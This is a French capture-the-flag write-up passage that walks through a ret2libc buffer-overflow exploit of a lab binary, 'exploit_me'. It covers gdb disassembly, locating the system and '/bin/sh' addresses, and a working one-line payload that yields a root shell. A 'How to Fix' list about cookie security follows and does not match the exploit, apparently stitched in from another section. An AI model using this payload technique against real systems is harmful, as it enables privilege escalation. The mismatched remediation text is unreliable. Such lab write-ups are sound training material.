 ##### VII - Zaz SSH

En analysant l'executable avec ghidra, on se rend compte que la fonction main utilise strcpy, sur une destination de 140, sans verifier la taille de la source.
On va donc effectuer un debordement de tampon, et faire executer un shell root par le programme.

``gdb exploit_me``
>(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.

- On set un breakpoint a la fin du main
``(gdb) break *0x08048437``
>Breakpoint 1 at 0x8048437

- On envoi 140 caracteres a au programme pour remplir le tampon
``(gdb) run $(python -c 'print "a"*140')``
>Starting program: /home/zaz/exploit_me $(python -c 'print "a"*140')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Breakpoint 1, 0x08048437 in main ()

- On recupere l'adresse de la commande system
``(gdb) p system``
>$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

- On recupere l'adresse de l'argument /bin/sh
``(gdb) find __libc_start_main,+99999999,"/bin/sh"``
>0xb7f8cc58
1 pattern found.

- On effectue le debordement de tampon, en entrant remplissant les 140 premiers caracteres avec du garbage, puis l'adresse de system, puis du garbage (pour remplir l'argument de system), puis on donne l'argument.
./exploit_me `python -c "print('a' * 140 + '\x60\xb0\xe6\xb7' + '0000' + '\x58\xcc\xf8\xb7')"`

#-> **ROOOOOOT**## How to Fix
- Encryption with private key rather than simple hashing
- Backend validation of the cookie's validity and identity
- Use of Secure and HttpOnly Flags, for cookie transmission via HTTPS only
- Limiting cookies in time
